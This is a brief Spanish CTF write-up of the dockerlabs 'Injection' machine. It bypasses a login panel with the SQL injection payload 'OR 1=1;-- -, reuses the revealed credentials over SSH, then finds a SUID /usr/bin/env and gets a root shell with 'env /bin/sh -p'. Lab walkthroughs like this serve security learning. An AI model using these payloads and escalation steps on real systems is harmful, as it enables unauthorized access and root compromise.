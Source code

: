 # dockerlabs

## Injection

Desplegamos la maquina y nos da una IP la misma es 172.17.0.2.

Tratamos de ingresar al browser a ver si tiene algo corriendo en el puerto 80

![alt text](login.png)

Lo cual encontramos una web con un panel de login, siendo que el lab se llama injection vamos a intentar hacer SQLi

Intentando ingresar 

```sql
'OR 1=1;-- -
```

Tanto en el usuario como password se ve puever como ingresamos en el panel de usuario

![panel](panel.png)

Viendo que nos llama dylan, tomamos ese usuario y la password que nos dio e intentamos logearnos por ssh

![ssh](ssh.png)

Por lo visto tenemos permiso de ejecuccion como root para `/usr/bin/env`

```shell
dylan@083489cbec93:~$ find / -perm -4000 -type f 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/mount
/usr/bin/chsh
/usr/bin/su
/usr/bin/env
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/umount
dylan@083489cbec93:~$ ls -la /usr/bin/su
-rwsr-xr-x 1 root root 55672 Feb 21  2022 /usr/bin/su
dylan@083489cbec93:~$
```

Lo cual nos permite hacer `env /bin/sh -p`

```shell
dylan@083489cbec93:~$ env /bin/sh -p
# whoami
root
#
```
